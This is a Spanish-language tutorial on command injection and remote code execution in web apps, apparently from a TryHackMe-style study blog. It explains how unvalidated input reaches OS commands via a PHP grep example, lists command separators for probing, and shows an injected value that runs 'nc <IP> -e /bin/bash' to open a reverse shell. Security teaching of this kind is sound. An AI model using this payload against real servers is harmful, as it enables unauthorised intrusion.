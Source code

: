 **Intro**

Command Injection o Remote Code Execution (RCE) es un tipo de ataque en el que se explota una vulnerabilidad para conseguir la ejecución de comandos en el servidor que hostea la aplicación web. 

Estos comandos se ejecutan mediante el usuario que está ejecutando el servidor web que con frecuencia suele ser www-data. 


<br />

**Discovering Command Injection**

Estas vulnerabilidades existen porque las aplicaciones web tienen funcionalidades que pasan input del usuario sin validar sobre código PHP, Java, Python, etc que realiza "system calls" sobre la máquina servidor, o lo que es lo mismo, llaman a una función que ejecuta comandos del sistema operativo como Exec, Passthru, System.

Por ejemplo, supongámos que existe un parámetro denominado "$title" que recoge input del usuario y se pasa sobre el siguiente código PHP:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220816180837.png' | relative_url }}" text-align="center"/>
</div>

Observemos por tanto que lo que se hace es intercarlar el input del usuario sobre un OS Command, concretamente lo intercala sobre un "grep":

```bash
grep $title /var/www/html/songtitle.txt 
```

De esta forma, si el input del usuario no se validase, se podría cortar el comando e inyectar uno propio malicioso, por ejemplo: 

$title=; nc \<IP> -e /bin/bash; 

```bash
grep; nc <IP> -e /bin/bash; /var/www/html/songtitle.txt 
```

Y como resultado obtendríamos una reverse shell en bash. Observemos que el payload varía en función del comando en el que el input se intercale. En general, si no tenemos acceso al código fuente lo más habitual es probar con los siguientes combinadores de comandos:

- ';'.
- '&'
- '&&'
- '|'
- '||'

<br />

**Finding and testing RCE**

Existen dos tipos RCE:

- Verbose, el output se devuelve al usuario. 
- Blind, el output no se devuelve al usuario. 
